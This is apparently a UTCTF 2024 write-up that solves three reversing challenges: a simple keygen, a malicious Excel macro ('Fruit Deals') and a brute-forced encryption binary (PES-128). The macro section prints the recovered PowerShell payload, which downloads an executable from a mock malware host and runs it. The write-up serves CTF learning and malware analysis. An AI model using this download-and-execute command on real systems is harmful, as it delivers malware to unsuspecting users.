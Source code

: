 # UTCTF 2024
## Beginner: Basic Reversing Problem

In keygen function, the program consecutively adding characters to the key.

![image](https://github.com/san601/CTF_Archive/assets/144963803/cef44d9d-982f-4bb4-addc-d3fc1fb89884)

Concatenating those characters and we got the flag.

```python
a = [
    0x75, 0x74, 0x66, 0x6c, 0x61, 0x67, 0x7b, 0x69, 0x5f, 0x63, 0x34, 0x6e,
    0x5f, 0x72, 0x33, 0x76, 0x21, 0x7d,
]
for i in a:
    print(chr(i), end='')
```

![image](https://github.com/san601/CTF_Archive/assets/144963803/84cb1da7-fe14-4940-b1b8-430b982b28b0)

## Fruit Deals

We got 2 macros in the file, let's just focus on the first one.
![image](https://github.com/san601/CTF_Archive/assets/144963803/dbbb6c1f-13ce-4b0a-9be0-603733d6e8c5)

Sheet1 and sheet2 were full of random Base64 stuffs
![image](https://github.com/san601/CTF_Archive/assets/144963803/fcd327de-3178-40ac-9e8f-fe58d4ff2c6b)

So basically, this macro check if a cell contained some string, if true, it put some part of a payload into a variable. This payload might be used to download some files.
![image](https://github.com/san601/CTF_Archive/assets/144963803/e5882d47-aff1-4325-8f9f-85c6cccc4b47)

Set a breakpoint just right before the macro execute the payload.
![image](https://github.com/san601/CTF_Archive/assets/144963803/bd1e358a-96e3-4d55-8b36-b830f26b5e24)

We got the payload
```
"poWeRsHELL -command "$oaK = new-object Net.WebClient;$OrA = 'http://fruit.gang/malware';$CNTA = 'banANA-Hakrz09182afd4';$jri=$env:public+'\'+$CNTA+'.exe';try{$oaK.DownloadFile($OrA, $jri);Invoke-Item $jri;break;} catch {}""
```
It is clearly stated that the macro was going to download a file from 
```
http://fruit.gang/malware/banANA-Hakrz09182afd4.exe
```
So the flag is utflag{banANA-Hakrz09182afd4.exe}

## PES-128
After a while, I noticed that:
- Each character in the output string was not calculated based on a whole input string.
- The program treated our input as a string of hex bytes:
This was my input:
![image](https://github.com/san601/CTF_Archive/assets/144963803/9a8d78c6-d231-4bbe-95ed-a656085d0936)

This was how the program store my input:
![image](https://github.com/san601/CTF_Archive/assets/144963803/7a9183b7-1145-40be-9bbd-ca1feab07174)

This was my input after some calculation:
![image](https://github.com/san601/CTF_Archive/assets/144963803/46404e51-1210-44b1-a73a-ff239ef2c45a)

This was the output:
![image](https://github.com/san601/CTF_Archive/assets/144963803/46fb9de2-3ce1-40a7-9041-211ebde7b2f3)

With those idea in mind, we can now brute-forcing each character at a time, compare it with the encrypted flag 
Here is my script to cAptURe tHe fLaG.
```python
from pwn import *

enc_flag = '75ac713a945e9f78f657b735b7e1913cdece53b8853f3a7daade83b319c49139f8f655b0b77b'

flag = ''

flag_len = len(enc_flag)//2

for i in range(flag_len):
    for j in range(33, 126):
        binary_path = './PES'
        p = process(binary_path)
        p.sendline(flag + str(hex(j)[2:]))

        output = p.recvall().decode()
        output = output.split()
        current_length = len(output[1])
        if output[1] == enc_flag[:current_length]:
            print(chr(j), end='')
            flag += str(hex(j)[2:])
        p.close()

print(bytes.fromhex(flag))
```
![image](https://github.com/san601/CTF_Archive/assets/144963803/d3b4acb1-c6bc-4871-8fd9-c4e1fcc69397)

